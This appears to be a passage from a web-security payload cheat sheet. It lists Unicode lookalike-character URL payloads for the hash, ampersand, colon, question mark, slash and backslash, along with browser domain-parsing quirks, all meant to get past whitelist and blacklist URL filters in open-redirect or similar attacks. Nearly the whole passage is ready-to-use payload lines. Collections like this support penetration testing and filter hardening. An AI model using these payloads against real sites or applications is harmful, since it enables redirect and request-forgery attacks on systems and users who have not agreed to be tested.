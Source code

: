 #### Alternative hashtag characters
Alternative `#` payloads that may normalize to `https://example.com#{whitelisteddomain}/`:
```powershell
https://example.com%EF%B9%9F{whitelisteddomain}/
https://example.com%EF%BC%83{whitelisteddomain}/
```

#### Alternative ampersand characters
Alternative `&` payloads that may normalize to `https://example.com&{whitelisteddomain}/`:
```powershell
https://example.com%EF%BC%86{whitelisteddomain}/
https://example.com%EF%B9%A0{whitelisteddomain}/
```

#### Alternative colon characters
Alternative `:` payloads that may normalize to `https://example.com:{whitelisteddomain}/`:
```powershell
https://example.com%EF%BC%9A{whitelisteddomain}/
https://example.com%EF%B9%95{whitelisteddomain}/
https://example.com%EF%B8%93{whitelisteddomain}/
https://example.com%EF%B8%99{whitelisteddomain}/
https://example.com%EF%B8%B0{whitelisteddomain}/
```

#### Alternative question mark characters
Alternative `?` payloads that may normalize to `https://example.com?{whitelisteddomain}/`:
```powershell
https://example.com%EF%BC%9F{whitelisteddomain}/
https://example.com%EF%B8%96{whitelisteddomain}/
```

#### Alternative slash characters
Alternative `/` payloads that may normalize to `https://example.com/{whitelisteddomain}/` 
```powershell
https://example.com%E2%88%95{whitelisteddomain}/
https://example.com%E2%95%B1{whitelisteddomain}/
https://example.com%EF%BC%8F{whitelisteddomain}/
```

#### Alternative backslash characters
Alternative `\` payloads that may normalize to `https://example.com\{whitelisteddomain}/`:
```powershell
https://example.com%EF%BC%BC{whitelisteddomain}/
https://example.com%EF%B9%A8{whitelisteddomain}/
```

### Browser domain parsing differences
Although most popular browsers generally adhere to established norms and standards, there are some discrepancies as to what constitutes a valid domain. This is important when trying to bypass blacklist and whitelist filters as regexes sometimes allow for such domains.

#### Generic browser
Safari, Chrome and Mozilla consider these domains valid:
```powershell
https://{whitelistdomain}.-.example.com/
https://{whitelistdomain}._.example.com/
```
